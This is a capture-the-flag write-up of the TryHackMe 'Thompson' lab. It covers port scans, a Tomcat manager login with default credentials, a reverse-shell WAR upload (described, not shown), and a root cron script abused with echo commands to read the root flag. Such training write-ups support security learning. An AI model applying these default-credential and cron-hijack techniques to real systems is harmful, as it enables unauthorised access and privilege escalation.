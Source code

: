 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Thompson/images/113-1.png)

In this room i exploited a tomcat server by logging in with the default credentials, then uploading a war file which acted as a reverse shell.

As always, i started enumerating the open ports.

```text
# Nmap 7.80 scan initiated Sun Oct  4 05:41:40 2020 as: nmap -sS -T4 -p- -o full_scan.txt 10.10.188.166
Nmap scan report for 10.10.188.166
Host is up (0.066s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

# Nmap done at Sun Oct  4 05:42:40 2020 -- 1 IP address (1 host up) scanned in 60.86 seconds
```

```text
# Nmap 7.80 scan initiated Sun Oct  4 05:44:50 2020 as: nmap -sV -sC -p22,8009,8080 -o full_scan_advanced.txt 10.10.188.166
Nmap scan report for 10.10.188.166
Host is up (0.051s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  4 05:45:09 2020 -- 1 IP address (1 host up) scanned in 20.02 seconds
```
This machine has only 3 ports open and one of them belongs ajp service. This service should not be visible to anyone as there is a known cve which can take advantage of it. 

The page on port 8080 is the default tomcat webpage and to my advantage i was able to login to the manager using the default credentials tomcat:s3cret

Looking at the new page i noticed the deploy field which afterwards was the point of interest.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Thompson/images/113-2.png)

The first step is to generate a reverse shell using msfvenom, then to upload it using the form from the deploy section. To use the exploit it is necessary to start a listener on the specified port and and click on the uploaded file which appeared in the Applications section and below /manager.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Thompson/images/113-3.png)

I listed the contents of jack's home directory and noticed the flag and 2 files: test.txt and id.sh

```text
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Oct  4 03:00 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

This file is a script which executes the command id and redirects the output to test.txt
```text
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
```

Here is the output.

```text
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)

```

The id.sh is a bash script which, looking at the /etc/crontab file, runs as root, and the result of the commands is in the test.txt file.

```text
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```

In this case i used the echo command to overwrite the id.sh file, as i wanted to just read the read, not to become root. I could have became root by reading the /etc/shadow file and cracking the hash or by echoing a reverse shell payload in the id.sh script.

```bash
echo '#!/bin/bash' > id.sh
echo 'cat /root/root.txt > test.txt' >> id.sh
```
